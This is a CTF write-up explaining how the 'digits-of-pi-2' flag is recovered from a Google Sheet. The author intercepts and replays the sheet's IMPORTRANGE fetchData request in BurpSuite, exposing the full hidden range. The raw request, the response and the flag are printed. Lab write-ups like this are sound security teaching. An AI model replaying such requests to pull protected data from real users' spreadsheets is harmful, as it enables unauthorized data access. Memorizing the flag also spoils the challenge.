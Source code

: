 # digits-of-pi-2 (70 solves, 474 points)

## Description:
This [spreadsheet](https://docs.google.com/spreadsheets/d/1NX9nUMrpaxGqChQ7ROzITDtlxaz5McSsN5BMs-o5k-M/edit) is Secure™

## Solution:
In this challenge instead of the secret sheet being on the same Google Sheet, it is imported using the IMPORTRANGE function. 

![alt text](formula.png "Formula")

However, the entire sheet is imported and then filtered on the google Sheet we have access to. So we could intercept the request to get the entire secret sheet. I will use BurpSuite to do this.

Looking through the requests in the HTTP request history I saw this one which looked suspicious(the externalDataBatchRequest confirmed this)

```
POST /spreadsheets/d/1NX9nUMrpaxGqChQ7ROzITDtlxaz5McSsN5BMs-o5k-M/externaldata/fetchData?id=1NX9nUMrpaxGqChQ7ROzITDtlxaz5McSsN5BMs-o5k-M&sid=166fbbcbfe3b9199&vc=0&c=0&w=0&flr=0&smv=97&includes_info_params=true HTTP/2

Host: docs.google.com

...

externalDataBatchRequest=%7B%221%22%3A%5B%7B%221%22%3A%22customFunctionMap%22%2C%222%22%3A%22%22%7D%2C%7B%221%22%3A%22protectedRangeInfo%22%2C%222%22%3A%22%22%7D%2C%7B%221%22%3A%22dbExecutionInfo%22%2C%222%22%3A%22%22%7D%2C%7B%221%22%3A%22%7B1%3D4%2C7%3D%7B1%3D44%231MD4O3pFoQY59_YoW_ZzxRUg-rBgHFlAaYxnNABmqc3A%2C2%3D3%23A%3AZ%7D%7D%22%2C%222%22%3A%22%22%7D%5D%7D&esid=166fbbcbfe3b9199
```
Sending this the repeater tab and sending it, I got the following response with the flag:
```
HTTP/2 200 OK

Content-Type: application/json; charset=utf-8

X-Robots-Tag: noindex, nofollow, nosnippet

X-Content-Type-Options: nosniff

Cache-Control: no-cache, no-store, max-age=0, must-revalidate

Pragma: no-cache

Expires: Mon, 01 Jan 1990 00:00:00 GMT

Date: Sun, 20 Jun 2021 03:24:00 GMT

X-Frame-Options: SAMEORIGIN

Content-Security-Policy: frame-ancestors 'self'

X-Xss-Protection: 1; mode=block

Server: GSE

Alt-Svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000,h3-T051=":443"; ma=2592000,h3-Q050=":443"; ma=2592000,h3-Q046=":443"; ma=2592000,h3-Q043=":443"; ma=2592000,quic=":443"; ma=2592000; v="46,43"



[null,[[null,"customFunctionMap",null,[null,null,null,null,""]],[null,"protectedRangeInfo","[]\n",[null,0.0,null,null,"d751713988987e9331980363e24189ce"]],[null,"dbExecutionInfo",null,[null,0.0,null,null,"e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855"]],[null,"{1\u003d4,7\u003d{1\u003d44#1MD4O3pFoQY59_YoW_ZzxRUg-rBgHFlAaYxnNABmqc3A,2\u003d3#A:Z}}","[null,1000,26,[[null,0,[[null,0,[null,[null,0]\n,[null,3,null,0]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,999440]\n]\n]\n,[null,2,[null,[null,0]\n,[null,2,\"Source:\"]\n]\n]\n]\n]\n,[null,1,[[null,0,[null,[null,0]\n,[null,3,null,1]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,999333]\n]\n]\n,[null,2,[null,[null,0]\n,[null,2,\"https://blogs.sas.com/content/iml/2015/03/12/digits-of-pi.html\"]\n,\"https://blogs.sas.com/content/iml/2015/03/12/digits-of-pi.html\"]\n]\n]\n]\n,[null,2,[[null,0,[null,[null,0]\n,[null,3,null,2]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,1000306]\n]\n]\n]\n]\n,[null,3,[[null,0,[null,[null,0]\n,[null,3,null,3]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,999964]\n]\n]\n]\n]\n,[null,4,[[null,0,[null,[null,0]\n,[null,3,null,4]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,1001093]\n]\n]\n]\n]\n,[null,5,[[null,0,[null,[null,0]\n,[null,3,null,5]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,1000466]\n]\n]\n]\n]\n,[null,6,[[null,0,[null,[null,0]\n,[null,3,null,6]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,999337]\n]\n]\n]\n]\n,[null,7,[[null,0,[null,[null,0]\n,[null,3,null,7]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,1000207]\n]\n]\n]\n]\n,[null,8,[[null,0,[null,[null,0]\n,[null,3,null,8]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,999814]\n]\n]\n]\n]\n,[null,9,[[null,0,[null,[null,0]\n,[null,3,null,9]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,1000040]\n]\n]\n]\n]\n,[null,36,[[null,14,[null,[null,0]\n,[null,2,\"m4k3_sur3_t0_r3str1ct_y0ur_imp0rtr4ng3s\"]\n]\n]\n]\n]\n]\n]\n",[null,1.624158716438E9,null,null,"�/�~�F��6\f�\f����",1.624156916287E9,null,null,[]]]]]
```
## Flag:
`
flag{m4k3_sur3_t0_r3str1ct_y0ur_imp0rtr4ng3s}`
